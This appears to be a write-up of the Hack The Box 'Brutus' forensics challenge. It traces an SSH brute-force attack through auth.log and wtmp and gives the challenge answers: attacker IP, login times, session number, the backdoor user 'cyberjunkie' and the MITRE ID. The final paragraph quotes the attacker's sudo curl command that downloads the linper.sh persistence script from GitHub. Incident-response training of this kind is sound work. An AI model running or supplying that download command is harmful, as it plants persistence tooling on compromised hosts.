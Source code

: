 # Brutus:

First thing is to analyze the provided assets.

Looking at the `auth.log` file we found an indicator of a brute force attack, as there are many failed login attempts in a very short time, so I determined the IP address of the attacker is `65.2.161.68`:

![Invalid user admin](./assets/01-invalid-user-admin.png)

After looking more logs, I confirmed that the bruteforce attack was successful and the attacker gained access to the `root` account on the server:

![Root compromised](./assets/02-root-compromised.png)

Paying attention to the timestamps, I saw that the attacker entered the credentials manually at `06:32:44`, after they were obtained with an automated tool:

![Manually login](./assets/03-manually-login.png)

But I needed to determine the exact time where the attacker had an interactive terminal connected, not only when the password was accepted. In order, to do that I checked the `wtmp` output running `cat wtmp.out | grep 65.2.161.68` (Display the content of `wtmp.out` and search on it for the lines that containd the IP `65.2.161.68`):

![Timestamp found](./assets/04-timestamp-found.png)

Something important to note here is that I am located in the **UTC-5** timezone, which is **5-hour difference** between the logs fromHack the Box, who uses **UTC**, so the correct answer is `2024-03-06 06:32:45`. 

To determine the session number I cheked the line after the `open session` log line, to found that the session number is `37`:

![Session number](./assets/05-session-number.png)

To find the new user the attacker added as part of their persistence strategy I search for `useradd`, `usermod` and `groupadd` key words and I found:

![Add user and group](./assets/06-add-user-group.png)

The logs clearly show the creation of the user `cyberjunkie`.

Next, to determine the MITRE ATT&CK sub-technique ID used, I browsed to the [MITRE ATT&CK Framework website](https://attack.mitre.org) and head to **Matrices => Enterprise** to locate the ID of the tactic used by the attacker. Headed to **Persistence** and **Create Account** (ID T1136). Under the Sub-techniques of **Create Account** I found **Local Account** which is the technique being used, with the ID `T1136.001`.

![Create local account MITRE framework ID](./assets/07-create-local-account-mitre-framework-id.png)

Now, to check the time the attacker's first SSH session ended I review the auth.log and looked for `session 37`, as `37` is the session ID found before. The session was closed at `06:37:24`.

![Session ended](./assets/08-session-ended.png)

Looking a few lines after we see two obvious logs executing `sudo` commands:

![Sudo commands](./assets/09-sudo-commands.png)

This logs show that the attacker downloaded a script from a Guthub repository. The command used was `/user/bin/curl` `https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`. This means the attacker tried to deploy additional tools in the victim machine.